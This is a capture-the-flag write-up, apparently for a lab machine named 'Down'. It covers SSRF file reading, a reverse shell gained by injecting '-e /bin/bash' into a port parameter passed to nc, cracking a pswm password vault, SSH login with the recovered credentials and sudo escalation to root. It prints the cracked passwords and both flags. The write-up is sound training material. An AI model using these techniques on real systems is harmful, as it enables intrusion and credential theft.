







## INITIAL ENUMARATION

```shell
nmap -sV -sC 10.129.234.87
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-28 07:14 EST
Nmap scan report for 10.129.234.87
Host is up (0.063s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f6:cc:21:7c:ca:da:ed:34:fd:04:ef:e6:f9:4c:dd:f8 (ECDSA)
|_  256 fa:06:1f:f4:bf:8c:e3:b0:c8:40:21:0d:57:06:dd:11 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Is it down or just me?
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.14 seconds
```

## WEB

The website is designed to check if another website is up:


If I enter a site on the internet it just hangs for a minute and eventually reports:



If I host a webserver on my machine and give it my IP, it makes a request to my site:

```shell
python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ... 10.129.234.87 - - [03/May/2025 04:40:08] "GET / HTTP/1.1" 200 -
```

And shows it’s up:



Similarly, if I request `http://localhost`, it returns up:



If I look at the headers when the site sends a request to my server, I’ll see it’s using `curl`:

```shell
nc -lnnp 80 
GET / HTTP/1.1 
Host: 10.10.14.79 
User-Agent: curl/7.81.0 
Accept: */*
```

By exploiting the fact that the backend executes curls directly with the URL parameter, it is possible to abuse the file:/// scheme to read local system files:



I'll try to read the index.php file. I find something interesting:

```
<body>

    <header>
        
        <h2>Is it down or just me?</h2>
    </header>

    <div class="container">

<?php
if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' ) {
  echo '<h1>Is the port refused, or is it just you?</h1>
        <form id="urlForm" action="index.php?expertmode=tcp" method="POST">
            <input type="text" id="url" name="ip" placeholder="Please enter an IP." required><br>
            <input type="number" id="port" name="port" placeholder="Please enter a port number." required><br>
            <button type="submit">Is it refused?</button>
        </form>';
} else {
  echo '<h1>Is that website down, or is it just you?</h1>
        <form id="urlForm" action="index.php" method="POST">
            <input type="url" id="url" name="url" placeholder="Please enter a URL." required><br>
            <button type="submit">Is it down?</button>
        </form>';
}
```

It’s looking for an `expertmode` parameter with the value “tcp”! I’ll try adding `?expertmode=tcp` to the end of the URL and a different text does load:



The expertmode code starts by validating that the given IP is an IP:

```
if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' && isset($_POST['ip']) && isset($_POST['port']) ) {
  $ip = trim($_POST['ip']);
  $valid_ip = filter_var($ip, FILTER_VALIDATE_IP);
```

Then it does the same for the port:

```
 $port = trim($_POST['port']);
  $port_int = intval($port);
  $valid_port = filter_var($port_int, FILTER_VALIDATE_INT);
```

Only if both are valid does it continue. then it uses `nc` to connect to the IP / port:

```
if ( $valid_ip && $valid_port ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
    exec($ec . " 2>&1",$output,$rc);
```

The problem with the above code is that it converts the `$port` value to an int (`$port_int`) and validates that value, but then it uses the original input in the command!

`escapeshellcmd` will prevent command injection, but it will not prevent parameter injection. So I can send `-e /bin/bash` and try to get a shell!

Client side validation rules prevent me from entering my payload directly into the form:



I’ll send a legit request to Burp Repeater, and add my payload:



This request just hangs, but after a few seconds, there’s a connection at my listening `nc`:

```shell
nc -lvnp 9001             
listening on [any] 9001 ...
connect to [10.10.14.108] from (UNKNOWN) [10.129.234.87] 35322

```

## USER FLAG

The user flag is in www-data’s home directory in the `html` folder:

```SHELL
www-data@down:/var/www/html$ ls 
index.php logo.png style.css user_aeT1xa.txt 
www-data@down:/var/www/html$ cat user_aeT1xa.txt 
d4bc94b386ef7c8113698a8c4951cacd
```

## ROOT FLAG

There is one home directory in `/home`

```SHELL
www-data@down:/home$ ls 
aleks
```

there’s another interesting file, in `/home/aleks/.local/share/pswn/pswm`. 

**PSWM** is a A simple command line password manager written in Python.

The file itself looks like base64-encoded and likely encrypted data:

```shell
www-data@down:/home/aleks$ cat .local/share/pswm/pswm e9laWoKiJ0OdwK05b3hG7xMD+uIBBwl/v01lBRD+pntORa6Z/Xu/TdN3aG/ksAA0Sz55/kLggw==*xHnWpIqBWc25rrHFGPzyTg==*4Nt/05WUbySGyvDgSlpoUw==*u65Jfe0ml9BFaKEviDCHBQ==
```

There is a tool on GitHub called [pswm-decryptor](https://github.com/seriotonctf/pswm-decryptor).

I’ll save a copy of the script on my host. It requires two dependencies, which I’ll add creating a venv enviroment:

```shell
python3 -m venv venv
```

```shell
venv/bin/pip3 install cryptocode prettytable

Collecting cryptocode
  Using cached cryptocode-0.1-py3-none-any.whl.metadata (2.9 kB)
Collecting prettytable
  Downloading prettytable-3.17.0-py3-none-any.whl.metadata (34 kB)
Collecting pycryptodomex (from cryptocode)
  Using cached pycryptodomex-3.23.0-cp37-abi3-manylinux_2_17_x86_64.manylinux2014_x86_64.whl.metadata (3.4 kB)
Collecting wcwidth (from prettytable)
  Using cached wcwidth-0.2.14-py2.py3-none-any.whl.metadata (15 kB)
Using cached cryptocode-0.1-py3-none-any.whl (4.1 kB)
Downloading prettytable-3.17.0-py3-none-any.whl (34 kB)
Using cached pycryptodomex-3.23.0-cp37-abi3-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (2.3 MB)
Using cached wcwidth-0.2.14-py2.py3-none-any.whl (37 kB)
Installing collected packages: wcwidth, pycryptodomex, prettytable, cryptocode
Successfully installed cryptocode-0.1 prettytable-3.17.0 pycryptodomex-3.23.0 wcwidth-0.2.14
```

Now I can run the script:

```shell
venv/bin/python pswm-decrypt.py -f pswm -w /home/kali/Desktop/rockyou.txt 
[+] Master Password: flower
[+] Decrypted Data:
+------------+----------+----------------------+
| Alias      | Username | Password             |
+------------+----------+----------------------+
| pswm       | aleks    | flower               |
| aleks@down | aleks    | 1uY3w22uc-Wr{xNHR~+E |
+------------+----------+----------------------+

```

I'try to log in by SSH as aleks:

```shell
ssh aleks@10.129.234.87
The authenticity of host '10.129.234.87 (10.129.234.87)' can't be established.
ED25519 key fingerprint is: SHA256:uq3+WwrPajXEUJC3CCuYMMlFTVM8CGYqMtGB9mI29wg
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.234.87' (ED25519) to the list of known hosts.
(aleks@10.129.234.87) Password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-138-generic x86_64)

 System information as of Fri Nov 28 12:13:34 PM UTC 2025

  System load:           0.0
  Usage of /:            52.6% of 6.92GB
  Memory usage:          8%
  Swap usage:            0%
  Processes:             234
  Users logged in:       0
  IPv4 address for eth0: 10.129.234.87
  IPv6 address for eth0: dead:beef::250:56ff:fe94:5761
Last login: Tue Jun 10 15:47:07 2025 from 10.10.14.67
aleks@down:~$
```

aleks can run any command as any user with `sudo`:

```shell
aleks@down:~$ sudo -l
[sudo] password for aleks: 
Matching Defaults entries for aleks on down:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User aleks may run the following commands on down:
    (ALL : ALL) ALL

```

I can run:

```shell
aleks@down:~$ sudo su
root@down:/home/aleks# whoami
root
```

And I can get the root flag:

```shell
root@down:~# cat root.txt
87bb9869a311b8abb5fb4d3c7248fdcb
```

